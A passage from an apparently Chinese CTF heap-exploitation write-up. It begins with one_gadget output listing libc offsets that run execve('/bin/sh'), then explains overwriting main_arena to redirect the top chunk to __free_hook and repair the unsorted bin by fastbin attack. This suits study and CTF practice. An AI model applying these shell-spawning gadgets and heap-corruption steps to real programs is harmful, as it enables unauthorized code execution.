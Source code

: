 ```python

      0x4526a execve("/bin/sh", rsp+0x30, environ)
      constraints:
            [rsp+0x30] == NULL

            0xcd0f3 execve("/bin/sh", rcx, r12)
            constraints:
                  [rcx] == NULL || rcx == NULL
                    [r12] == NULL || r12 == NULL

                    0xcd1c8 execve("/bin/sh", rax, r12)
                    constraints:
                          [rax] == NULL || rax == NULL
                            [r12] == NULL || r12 == NULL

                            0xf02a4 execve("/bin/sh", rsp+0x50, environ)
                            constraints:
                                  [rsp+0x50] == NULL

                                  0xf02b0 execve("/bin/sh", rsi, [rax])
                                  constraints:
                                        [rsi] == NULL || rsi == NULL
                                          [[rax]] == NULL || [rax] == NULL

                                          0xf1147 execve("/bin/sh", rsp+0x70, environ)
                                          constraints:
                                                [rsp+0x70] == NULL

                                                0xf66f0 execve("/bin/sh", rcx, [rbp-0xf8])
                                                constraints:
                                                      [rcx] == NULL || rcx == NULL
                                                        [[rbp-0xf8]] == NULL || [rbp-0xf8] == NULL

'''


```

通过realloc调整栈环境无果。。。不过之前的操作都是有意义的，修改malloc_hook无效，但是我们也获得了对main_arena的写。

**修复unsortbin&&修改free_hook**

free_hook覆盖的通用思路是覆盖main_arena+0x88(指向topchunk)，修改top chunk指向free_hook前的地址，然后申请内存，多次申请就能获取到对free chunk的读写。

不过在此之前，还是得修复unsortbin的空间。这里可以通过修改main_arena来修改unosortbin，顺便修改top_chunk，一举两得。这篇[文章](https://xz.aliyun.com/t/7020)讲的很很详细。

![sDOI69](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/sDOI69.png)

通过覆盖main_arena来实现fastbin attack，修复unosortbin。这里我们原来的chunk长度可能不够，所以可以覆盖main_arena+0x48( fastbin-0x70)，重新获取一个0x70的chunk。
